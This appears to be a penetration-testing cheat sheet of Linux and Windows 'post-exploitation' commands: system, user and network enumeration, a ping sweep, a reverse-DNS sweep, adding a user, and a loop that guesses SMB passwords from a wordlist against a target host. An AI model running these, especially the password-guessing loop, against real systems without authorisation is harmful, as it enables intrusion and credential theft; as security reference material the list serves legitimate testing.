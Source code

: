 ```yaml
---
title: Landing Commands
category: Post-Exploitation
order: 2
---
```


> **Linux**

Kernal version  | <code> uname -r </code>
Determine Account | <code> whoami </code>
Add User | <code> useradd -d [home_dir] [login name] </code>
Privilidges |<code>  id </code>
Network Activity | <code> netstat -natu </code>
ARP Cache | <code> arp -a </code>
Routing Table | <code> netstat -nr </code>
Lockout Policy | <code> grep tally /etc/pam.d/* <br> grep tally /etc/pam.conf" </code>
Find Public IP Address | <code> curl icanhazip.com <br> nslookup myip.opendns.com resolver1.opendns.com </code>

> **Windows**

Determine Account | <code> whoami, set username </code>
DNS Cache | <code> ipconfig /displaydns </code>
Arp Cache | <code> arp -a </code>
Network Activity | <code> netstat -na | find "ESTABLISHED" </code>
Processes | <code> tasklist </code>
Services | <code> sc query </code>
Inventory Software | <code> dir /s  c:\Program Files > inventory.txt <br> dir /s ""c:\Program Files (x86)"" >> inventory.txt <br> set path </code>
Routing Table | <code> netstat -nr  </code>
List Users | <code> net user <br> wmic useraccount list brief </code>
List Groups | <code> net localgroup </code> 
List Administrators | <code> net localgroup administrators </code> 
List Password and Lockout Policy | <code> net accounts or net accounts /domain </code> 
Ping Sweep | <code> for /L %i in (1, 1, 255) do @ping -n 1 192.168.2.%i | find "TTL" </code> 
DNS Lookup | <code> for /L %i in (1, 1, 255) do @echo 10.10.10.%i & nslookup 10.10.10.%i  2>nul | find "Name" </code> 
Password Guess | <code> for /f %i in (password.lst) do @echo %i & @net use \\[tartet_IP_addr] %i /u:[UserName] 2>nul && echo [UserName]: %i >> success.txt </code> 
Find Public IP Address | <code> curl icanhazip.com <br> nslookup myip.opendns.com resolver1.opendns.com </code>




